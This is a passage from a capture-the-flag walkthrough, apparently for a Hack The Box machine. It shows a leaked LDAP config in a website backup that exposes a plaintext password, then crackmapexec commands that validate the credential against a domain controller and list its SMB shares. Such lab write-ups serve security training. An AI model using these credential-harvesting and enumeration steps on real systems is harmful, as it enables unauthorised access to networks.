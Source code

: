 ```
 extracting: ./website-backup/images/quote.png  
 extracting: ./website-backup/images/s-1.png  
 extracting: ./website-backup/images/s-2.png  
 extracting: ./website-backup/images/s-3.png  
 extracting: ./website-backup/images/s-4.png  
 extracting: ./website-backup/images/search-icon.png  
  inflating: ./website-backup/index.html  
  inflating: ./website-backup/js/bootstrap.js  
  inflating: ./website-backup/js/jquery-3.4.1.min.js  
  inflating: ./website-backup/service.html  
```

`cat ./website-backup/.old-conf.xml`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user> ←
         <password>R4v3nBe5tD3veloP3r!123</password> ←
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

`crackmapexec smb 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 ←
```

`crackmapexec smb 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' --shares`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
SMB         10.10.11.236    445    DC01             [*] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share
```
